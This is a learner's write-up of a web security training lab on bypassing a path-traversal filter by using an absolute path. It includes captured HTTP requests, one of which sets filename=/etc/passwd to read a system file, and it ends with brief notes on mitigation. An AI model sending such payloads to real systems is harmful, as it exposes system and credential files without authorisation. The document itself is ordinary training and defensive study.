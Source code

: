 
## Lab : File path traversal, traversal sequences blocked with absolute path bypass

Many applications that place user input into file paths implement defenses against path traversal attacks. These can often be bypassed.

If an application strips or blocks directory traversal sequences from the user-supplied filename, it might be possible to bypass the defense using a variety of techniques.

You might be able to use an absolute path from the filesystem root, such as filename=/etc/passwd, to directly reference a file without using any traversal sequences.

## Write-up:

1) I am finally getting this concept.
2) Last time we used ../../, which is known as traversal sequence,  Now for this lab, just repeat the  last Labs process.
3) I opened Burp-suite and immediately launched the browser in the **proxy** tab.
4) I pasted the Lab's link and intercepted it .
5) Then i chose a GET request : 

```Request in Proxy
GET /image?filename=13.jpg HTTP/2
Host: 0a6e009904051dfa81dad0f1004a00b7.web-security-academy.net
Cookie: session=fCnHEMGVGwXaQOOsbF49ze5ZLWYQa8xX
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a6e009904051dfa81dad0f1004a00b7.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=2, i
```

6) Then I sent that **GET Request** to the repeater for tweaking it a bit. This time, since we cant use traversal sequence, as it seems the developers blocked it, we still have a way to bypass the absolute path. Here is what i changed:


```Request in Repeater
GET /image?filename=/etc/passwd HTTP/2
Host: 0a6e009904051dfa81dad0f1004a00b7.web-security-academy.net
Cookie: session=fCnHEMGVGwXaQOOsbF49ze5ZLWYQa8xX
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a6e009904051dfa81dad0f1004a00b7.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=2, i
```

7) I successfully exploited the vulnerability.


### ***Key Takeaways:**

- **Path Traversal Defense Bypass:** The lab demonstrated that even when traversal sequences are blocked, absolute paths can be used as a method to bypass restrictions.

- **Sensitive File Access:** Using absolute paths such as `/etc/passwd` can reveal sensitive information, which could potentially lead to further exploitation.

### ***Future Considerations:***

- When dealing with file upload or file inclusion features, always test for both traversal sequences and absolute path bypass methods.

- Developers can mitigate such vulnerabilities by using robust whitelisting or sanitization techniques for file paths (e.g., only allowing specific directories or files).

